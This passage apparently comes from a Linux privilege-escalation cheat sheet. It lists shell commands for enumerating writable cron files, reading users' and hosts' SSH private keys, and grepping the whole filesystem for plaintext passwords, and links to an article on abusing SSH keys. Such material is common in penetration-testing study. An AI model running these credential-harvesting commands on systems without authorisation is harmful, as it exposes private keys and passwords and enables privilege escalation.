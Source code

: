 Look for anything that is owned by a privileged user but writable for you

```bash
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```

#### SSH Keys

Check all home directories

```bash
cat ~/.ssh/authorized_keys
cat ~/.ssh/identity.pub
cat ~/.ssh/identity
cat ~/.ssh/id_rsa.pub
cat ~/.ssh/id_rsa
cat ~/.ssh/id_dsa.pub
cat ~/.ssh/id_dsa
cat /etc/ssh/ssh_config
cat /etc/ssh/sshd_config
cat /etc/ssh/ssh_host_dsa_key.pub
cat /etc/ssh/ssh_host_dsa_key
cat /etc/ssh/ssh_host_rsa_key.pub
cat /etc/ssh/ssh_host_rsa_key
cat /etc/ssh/ssh_host_key.pub
cat /etc/ssh/ssh_host_key
```

Privilege Escalation with SSH keys

```
https://steflan-security.com/linux-privilege-escalation-exploiting-misconfigured-ssh-keys/ 
```

#### Bad path configuration

Require user interaction

#### Find plain passwords

```bash
grep -rnw '/' -ie 'pass' --color=always
grep -rnw '/' -ie 'DB_PASS' --color=always
grep -rnw '/' -ie 'DB_PASSWORD' --color=always
grep -rnw '/' -ie 'pass' --color=always
```
